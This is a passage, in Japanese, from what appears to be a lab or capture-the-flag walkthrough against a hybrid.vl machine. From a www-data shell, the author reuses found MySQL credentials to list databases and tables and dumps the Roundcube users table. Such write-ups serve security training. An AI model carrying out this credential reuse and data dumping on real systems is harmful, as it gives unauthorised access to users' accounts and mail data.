 認証情報を使って、アクセスしてみる
```sh
mysql -u roundcube -p'Duckling21'
```
これだと、ちょっとうまく行かないので、行うコマンドを指定する

```sh
www-data@mail01:/$ mysql -u roundcube -p'Duckling21' -e "show databases;"
mysql -u roundcube -p'Duckling21' -e "show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| roundcubemail      |
+--------------------+
```
アクセスできたことが確認できる

ユーザーのパスワードなどを知りたいけど、これって一番上で取得したのと同じかな(そんな気がしてきた)
```sh
www-data@mail01:/$ mysql -u roundcube -p'Duckling21' roundcubemail -e "show tables;"
<cube -p'Duckling21' roundcubemail -e "show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+-------------------------+
| Tables_in_roundcubemail |
+-------------------------+
| cache                   |
| cache_index             |
| cache_messages          |
| cache_shared            |
| cache_thread            |
| collected_addresses     |
| contactgroupmembers     |
| contactgroups           |
| contacts                |
| dictionary              |
| filestore               |
| identities              |
| responses               |
| searches                |
| session                 |
| system                  |
| users                   |
+-------------------------+
www-data@mail01:/$ mysql -u roundcube -p'Duckling21' roundcubemail -e "SELECT * FROM users;"
<Duckling21' roundcubemail -e "SELECT * FROM users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+---------+------------------------+-----------+---------------------+---------------------+--------------+----------------------+----------+-------------------------------------------------------------------------------------------------+
| user_id | username               | mail_host | created             | last_login          | failed_login | failed_login_counter | language | preferences                                                                                     |
+---------+------------------------+-----------+---------------------+---------------------+--------------+----------------------+----------+-------------------------------------------------------------------------------------------------+
|       1 | admin@hybrid.vl        | localhost | 2023-06-17 13:56:16 | 2025-10-14 04:45:10 | NULL         |                 NULL | en_US    | a:2:{s:17:"message_threading";a:1:{s:4:"Junk";b:0;}s:11:"client_hash";s:16:"Aw8V1guBgRHceLJl";} |
|       2 | peter.turner@hybrid.vl | localhost | 2023-06-18 08:42:53 | 2023-06-18 08:42:53 | NULL         |                 NULL | en_US    | a:2:{s:17:"message_threading";a:1:{s:4:"Junk";b:0;}s:11:"client_hash";s:16:"sGrxgKoYhcl2pvWC";} |
```